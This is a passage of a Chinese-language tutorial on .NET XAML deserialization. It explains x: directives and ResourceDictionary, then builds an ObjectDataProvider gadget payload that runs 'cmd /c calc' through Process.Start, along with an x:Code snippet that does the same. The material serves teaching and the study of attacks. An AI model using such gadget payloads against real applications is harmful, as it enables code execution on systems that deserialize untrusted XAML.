笔者创建的项目名 ObjectDataProvider 有一定迷惑性，这里说明下和反序列化用到的 ObjectDataProvider 类毫无关联，下表是常见的几种 x: 空间指令含义

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibesCLZookMlDIfegHtZA8bqoAIxeINGDaM6WrFianRkzhwVTdjeNI2tibNQp7DlricYPy6eYfWRMia0A/640?wx_fmt=png)

x:Class 前面已说过不再赘述，而 x:Key 表示检索资源文件中所需元素的键名，x:Type 表示 CLR 提供的数据类型，在 XAML 里可以认为是引用某个命名空间下的类，x:Static 引用后端类里定义的静态字段，x:Code 可在 XAML 里执行 C# 代码弹出计算器，例如在窗体 Loaded 事件指定触发的方法名为: Window_Loaded

```
<x:Code>
        <![CDATA[
        private void Window_Loaded(object sender, RoutedEventArgs e)
        {
            System.Diagnostics.Process.Start("calc");
        }
        ]]>
</x:Code>

```

借用下图笔者把很多概念都画到了图里面，希望帮助读者有更加直观的了解，下图中 x:Type 简单的理解就是在 XAML 中想使用某种数据类型时就得用它，比如从自定义的命名空间 xmlns:process 里调用 Process 类，另外 xmlns:local="clr-namespace:ObjectDataProvider" 将本地项目空间名 ObjectDataProvider 映射到前缀 xmlns:local

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibesCLZookMlDIfegHtZA8buOIxQwZYWUzXPvBZNnLlIfTY6xueibGsNa8jvrhH78DiaDqautS3IO2Q/640?wx_fmt=png)

上图中 x:Type 简单的理解就是在 XAML 中想使用某种数据类型时就得用它，比如从自定义的命名空间 xmlns:process 里调用 Process 类，另外 xmlns:local="clr-namespace:ObjectDataProvider" 将本地项目空间名 ObjectDataProvider 映射到前缀 xmlns:local 

0x04 简化载荷
=========

在第 12 课里已经详细的介绍过资源字典（ResourceDictionary）功能上以键值对的形式存储资源，并且可存储任意类型的对象。默认窗口设计器会创建 Window.Resources 标签，笔者添加两个资源项，一个是 String 类型、一个是 Double 类型，最后以静态方式读取资源绑定到 TextBlock 控件

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibesCLZookMlDIfegHtZA8bkqA5BuibEgkbHS3ib5lP42t3bMAkdd1c08QKkpYAvGWqOGvz088GMX1w/640?wx_fmt=png)

当资源太多需要集中存储时就用到 ResourceDictionary，可以单独将各个资源保存在每个文件中，用 ResourceDictionary.MergeDictionaries 合并到一起使用

```
<ResourceDictionary>
            <ResourceDictionary.MergedDictionaries>
                <ResourceDictionary Source="Dic1.xaml"/>
                <ResourceDictionary Source="Dic2.xaml"/>
            </ResourceDictionary.MergedDictionaries>
 </ResourceDictionary>

```

如果在顶层容器里没有找到 Window.Resources，程序还会继续上升到 Application.Resources 去寻找资源，所以我们把恶意代码引入到  Application.Resources 也可以被调用运行。结合 XmlSerialize 反序列化给出的 Payload 看一下 XAML，是不是感觉容易多了？

```
<![CDATA[
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
xmlns:b="clr-namespace:System;assembly=mscorlib" 
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" Method>
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>]]>

```
